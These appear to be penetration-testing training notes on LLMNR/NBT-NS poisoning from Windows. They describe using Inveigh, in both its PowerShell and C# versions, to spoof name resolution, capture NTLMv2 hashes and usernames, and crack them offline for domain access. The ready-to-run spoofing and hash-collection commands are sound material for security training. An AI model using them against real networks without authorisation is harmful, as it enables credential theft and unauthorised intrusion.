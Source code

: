 ### TTPs
- **Objective:** Collect authentication information (NTLMv1/NTLMv2 password hashes).
- **Cracking Hashes:** Use tools like Hashcat or John to crack the hashes offline.
- **Further Use:** Utilize cleartext passwords for initial foothold or expanded access within the domain.

---

# LLMNR/NBT-NS Poisoning - from Windows
### Overview
Inveigh is a tool written in PowerShell and C# that can listen to multiple protocols, including LLMNR, DNS, mDNS, NBNS, and more. It's useful for capturing credentials on Windows hosts.

### Using the PowerShell Version

1. **Import the module and list parameters:**
   ```powershell
   PS C:\htb> Import-Module .\Inveigh.ps1
   PS C:\htb> (Get-Command Invoke-Inveigh).Parameters
   ```

2. **Start Inveigh with LLMNR and NBNS spoofing:**
   ```powershell
   PS C:\htb> Invoke-Inveigh -LLMNR Y -NBNS Y -ConsoleOutput Y -FileOutput Y
   ```

### Using the C# Version (InveighZero)
The C# version is actively maintained and combines original and ported code. It's available pre-compiled in the C:\Tools folder, but it's good practice to compile it yourself using Visual Studio.

1. **Run the C# executable:**
   ```powershell
   PS C:\htb> .\Inveigh.exe
   ```

2. **View help options:**
   ```
   C(0:0) NTLMv1(0:0) NTLMv2(3:9)> HELP
   ```

### Useful Console Commands

- **Get queued console output:**
  ```plaintext
  GET CONSOLE
  ```

- **Get captured NTLMv2 hashes (unique):**
  ```plaintext
  GET NTLMV2UNIQUE
  ```

- **Get captured NTLMv2 usernames:**
  ```plaintext
  GET NTLMV2USERNAMES
  ```
